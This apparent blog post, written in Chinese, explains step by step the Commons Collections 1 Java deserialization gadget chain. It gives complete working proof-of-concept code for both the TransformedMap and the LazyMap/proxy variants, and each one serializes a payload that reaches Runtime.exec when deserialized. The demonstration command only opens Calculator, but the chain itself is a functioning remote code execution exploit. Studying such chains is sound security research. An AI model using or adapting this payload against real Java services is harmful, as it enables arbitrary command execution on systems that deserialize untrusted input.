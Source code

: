 # CommonsCollections1链详解

     
     
比较难一点的CC链     
&lt;!--more--&gt;  
# CommonsCollections1链详解  
jdk8源码下载  
https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4  
**漏洞触发点在**`org.apache.commons.collections.functors.InvokerTransformer`  
其中的`transform()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142003386.png)
很明显的一个反射调用，其中`iMethodName、iParamTypes、iArgs`都是可控的变量，便可以调用任意方法和任意参数  
看一下构造器是如何赋值的  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142005500.png)
构造一个简单的 payload 试试  
`new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;}).transform(Runtime.getRuntime());`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142007538.png)
找一个任意类调用`transforms()`方法的方法，这里选择`org.apache.commons.collections.map.TransformedMap`类的`checkSetValue()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142009339.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142010479.png)
`valueTransformer`变量可控  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142011147.png)
但是因为构造器是`protected`修饰，所以无法直接调用，利用这里的静态方法`decorate()`进行了调用  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142012194.png)
再查看一下哪里调用了`checkSetValue()`方法，只有这一处  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142022694.png)
`setValue()`方法调用了`checkSetValue()`，构造一个`payload`，看看能不能通  
```java  
Runtime r = Runtime.getRuntime();    
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});    
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();    
map.put(&#34;key&#34;,&#34;value&#34;);    
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);    
    
for(Map.Entry entry:transformedMap.entrySet()){    
    entry.setValue(r);  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142036218.png)
接着找一个`setValue()`方法的调用，在`sun.reflect.annotation.AnnotationInvocationHandler`类中，找到了如下方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142044567.png)
这里调用了`setValue()`方法，并且还在`readObject()`方法中，继续构造`poc`  
```java  
Runtime r = Runtime.getRuntime();    
InvokerTransformer invokerTransformer = new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});    
HashMap&lt;Object,Object&gt; map = new HashMap&lt;&gt;();    
map.put(&#34;key&#34;,&#34;value&#34;);    
Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,invokerTransformer);    
    
Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);    
Constructor annotationInvocationhandleconstructor = c.getDeclaredConstructor(Class.class,Map.class);    
annotationInvocationhandleconstructor.setAccessible(true);    
Object o = annotationInvocationhandleconstructor.newInstance(Target.class,transformedMap);  
```  
但是这里存在两个问题  
第一个问题是`Runtime`没有实现`Seriablable`接口，无法参与序列化过程  
利用反射来解决，这里再利用一个`ChainedTransformer.transform`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142055839.png)
简单来说就是上一个执行`transform`方法返回的结果作为下一个执行`transform`方法输入  
```java  
Transformer[] transformers = new Transformer[]{    
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
};  
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
```  
还有一个问题，无法控制`setValue()`里面的参数值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142058315.png) 
这里利用`org.apache.commons.collections.functors.ConstantTransformer`的`transform()`方法，无论传入什么，都会返回固定的值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142059785.png)
所以完善一下上面的`poc`  
```java  
Transformer[] transformers = new Transformer[]{  
		new ConstantTransformer(Runtime.class),  
        new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
        new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
        new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
};  
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
```  
于是完整的`poc`如下  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.map.TransformedMap;    
    
import java.io.*;    
import java.lang.annotation.Target;    
import java.lang.reflect.Constructor;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollection1 {    
    public static void main(String[] args) throws Exception{    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
        chainedTransformer.transform(Runtime.class);    
        InvokerTransformer invokerTransformer =new  InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;});    
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();    
        map.put(&#34;value&#34;,&#34;value&#34;);    
        Map&lt;Object,Object&gt; transformedMap = TransformedMap.decorate(map,null,chainedTransformer);   
        Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);    
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);    
        AnnotationInvocationHandlerConstructor.setAccessible(true);    
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);    
        serialize(o);    
        unserialize(&#34;ser.bin&#34;);    
    
    }    
    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142111136.png)
整个调用栈如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151320208.png)
**注**  
这里为什么要用`Target`  
`Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);`  
因为`Target`中有值是`value`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142103316.png)
这里的`getKey()`获取的就是，上面`map.put()`放入的`key`值  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401142108071.png)
`map.put(&#34;value&#34;,&#34;value&#34;);`  
`key`放入`value`，正好能取出`Target`中的值，所以就绕过了`if`条件  
  
## 另一条  
在上面选择任意类执行`transform`方法的时候，选择了`TransformedMap`  
这次选择另一个类`LazyMap`中的`get()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151446822.png)
再看一下哪里调用了`get()`方法，恰好在`AnnotationInocationHandler`类中的`invoke()`方法中调用了`get()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151448743.png)
而恰好`memberValues`也是可控的，那如何调用到`invoke()`方法呢？  
这里需要一个新的知识点，动态代理，将`AnnoationInvocationHandler`动态代理，执行任意方法，即可调用到`invoke`方法，但是根据 invoke 中的`if`条件，执行的任意方法必须是无参的，恰好在`AnnotationInvocationHandler`类中的`readObject()`方法中，有这样的方法存在  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/20240115145104.png)
于是根据上面的`poc`修改一下  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.map.LazyMap;    
import org.apache.commons.collections.map.TransformedMap;    
    
import java.io.*;    
import java.lang.annotation.Target;    
import java.lang.reflect.Constructor;    
import java.lang.reflect.InvocationHandler;    
import java.lang.reflect.Proxy;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollections1 {    
    public static void main(String[] args) throws Exception{    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer(&#34;getMethod&#34;,new Class[]{String.class,Class[].class},new Object[]{&#34;getRuntime&#34;,null}),    
                new InvokerTransformer(&#34;invoke&#34;,new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
                new InvokerTransformer(&#34;exec&#34;,new Class[]{String.class},new Object[]{&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
    
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();    
        Map&lt;Object,Object&gt; lazymap = LazyMap.decorate(map,chainedTransformer);    
        Class c = Class.forName(&#34;sun.reflect.annotation.AnnotationInvocationHandler&#34;);    
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);    
        AnnotationInvocationHandlerConstructor.setAccessible(true);    
        InvocationHandler h = (InvocationHandler) AnnotationInvocationHandlerConstructor.newInstance(Target.class,lazymap);    
    
        Map proxyMap = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);    
    
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,proxyMap);    
    
        serialize(o);    
        unserialize(&#34;ser.bin&#34;);    
    
    }    
    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(&#34;ser.bin&#34;));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401151459198.png)
  
  

---

> Author: N1Rvana  
> URL: http://localhost:1313/commonscollections1%E9%93%BE%E8%AF%A6%E8%A7%A3/  

